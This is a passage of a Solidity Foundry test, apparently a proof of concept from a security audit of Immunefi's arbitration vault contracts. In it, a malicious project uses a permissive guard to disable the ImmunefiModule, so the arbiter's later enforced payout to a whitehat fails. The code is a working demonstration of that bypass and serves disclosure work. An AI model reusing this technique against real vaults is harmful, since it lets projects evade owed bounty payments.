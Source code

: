 ```sol
        bytes memory disableImmunefiModuleSignature = _signData(vaultSignerPk, disableImmunefiModuleHashData);

        // 2. Malicious project disables the ImmunefiModule since ImmunefiGuard allows **any** transaction on the vault.
        vault.execTransaction(
            address(vault),
            0,
            abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
            Enum.Operation.Call,
            0,
            0,
            0,
            address(0),
            payable(0),
            disableImmunefiModuleSignature
        );

        // 3. Critical issue gets fixed/resolved and protocol owner deactivates emergency shutdown.
        vm.prank(protocolOwner);
        emergencySystem.deactivateEmergencyShutdown();

        // 4. Whitehat approves spending the fee amount for an arbitration.
        vm.startPrank(whitehat);
        token.approve(address(arbitration), arbitration.feeAmount());
        vm.stopPrank();

        // 5. Whitehat signs request for arbitration
        bytes memory signature = _signData(
            whitehatPk,
            arbitration.encodeRequestArbFromWhitehatData(referenceId, address(vault))
        );

        // 6. Whitehat requests arbitration and pays the fee.
        vm.prank(whitehat);
        arbitration.requestArbWhitehat(referenceId, address(vault), whitehat, signature);

        vm.deal(address(vault), 110 ether);
        bytes32 arbitrationId = arbitration.computeArbitrationId(referenceId, address(vault), whitehat);

        // 7. Arbiter enforces sending reward to the whitehat.
        //    The txn fails since the malicious project has disabled ImmunefiModule which results in GS104 error.
        vm.startPrank(arbiter);
        arbitration.enforceSendRewardWhitehat(
            arbitrationId,
            new Rewards.ERC20Reward[](0),
            100 ether,
            vaultDelegate.UNTRUSTED_TARGET_GAS_CAP(),
            true
        );
        vm.stopPrank();
    }

```

